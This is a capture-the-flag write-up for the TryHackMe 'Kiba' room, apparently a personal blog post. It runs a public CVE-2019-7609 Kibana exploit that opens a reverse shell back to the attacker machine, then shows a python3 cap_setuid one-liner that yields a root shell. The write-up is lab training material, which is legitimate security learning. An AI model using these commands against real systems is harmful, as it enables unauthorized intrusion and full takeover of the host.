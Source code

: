 ```yaml
---
layout: post
title: kiba writeup
subtitle: Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/kiba/logo.png
share-img: /assets/img/path.jpg
tags: [ctf,tryhackme, writeup, kiba, Capabilities]
---
```


Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution. Have Fun!


## Here is a machine information

| Title | Kiba | 
| :------ |:--- | 
| Difficulty | Easy | 
| Point | 500 |
| Maker | Stuxnet |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 


## RUST SCAN and Enumeration
Normally, i will use the nmap for first step recon and also collect machine information. After some machine and read the article about rust scan. So what is the rust scan? How is it work? you can find here: https://github.com/RustScan/RustScan. It realy fast than nmap. 


``` rustscan -b 500 machine-ip ```
<em>

-b : the batch size for port scanning, it increases or slows the speed of scanning. Depends on the open file limit of your OS.  If you do 65535 it will do every port at the same time. Although, your OS may not support this [default:4500]
</em>

It will take few time to scan: 

![rustscan](/leiz95/assets/img/kiba/rustscan.png)

We got 3 open ports. Go through each port. In port 5601, this is the kibana application.

![kibana](/leiz95/assets/img/kiba/5601.png)

Kibana is a free and open user interface that lets you visualize your Elasticsearch data and navigate the Elastic Stack. Do anything from tracking query load to understanding the way requests flow through your apps.

We can manual go throung all tag in the kibana. We got version 6.5.4.
Let's google the version which have any public vulnerability.
There is the vulnerability as remote code executed in this version.

![kibana](/leiz95/assets/img/kiba/vulnerability.png)

From the CVE-2019-7609, we can use 2 source from here:

By manual: https://github.com/mpgn/CVE-2019-7609 and this is detail explanation why have this issue: https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/

By auto code: https://github.com/LandGrey/CVE-2019-7609

I will use auto code try to exploit. Clone the code from github

``` git clone https://github.com/LandGrey/CVE-2019-7609.git ```

Exploit by run command:

``` python CVE-2019-7609-kibana-rce.py  -u http://machine-ip:5601 -host yourip port 1234 --shell ```

At your attacker machine, we need to listen the port 1234

![nc](/leiz95/assets/img/kiba/nc.png)

Then wait for shell connect

![shell](/leiz95/assets/img/kiba/shell.png)

From kibana home directory, we have the user flag.

![shell](/leiz95/assets/img/kiba/user.png)

## 	Escalate privileges 

As the hint, Capabilities is a concept that provides a security system that allows "divide" root privileges into different values.
Here is more source if you don't understand it.

- [Working with Linux Capabilities](https://www.vultr.com/docs/working-with-linux-capabilities#)

- [Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

Reading capabilities
To view if a file has any capability set, you can simply run 

`getcap /full/path/to/binary`

If you'd like to find out which capabilities are already set on your system, you can search your whole file-system recursively with the following command:

```getcap -r /```

Run this command on target machine, you will see a lot of error. To ignore error we should run:


```getcap -r / 2>/dev/null```

![shell](/leiz95/assets/img/kiba/result.png)

The thing realy interesting is: `/home/kiba/.hackmeplease/python3 = cap_setuid+ep
`

The python3 can SETUID which can abuse to Escalate root.

From https://gtfobins.github.io/gtfobins/python/#capabilities we have available code to exploit. Let's do it.

```python
 /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")' 
 ```

 Yeahm, we got root user.

 ![shell](/leiz95/assets/img/kiba/root.png)

Now we can find root flag via: 

```javasript
find / -type f -name root.txt 2>/dev/null
```

Then we cat the root.txt and got the flag.!!!
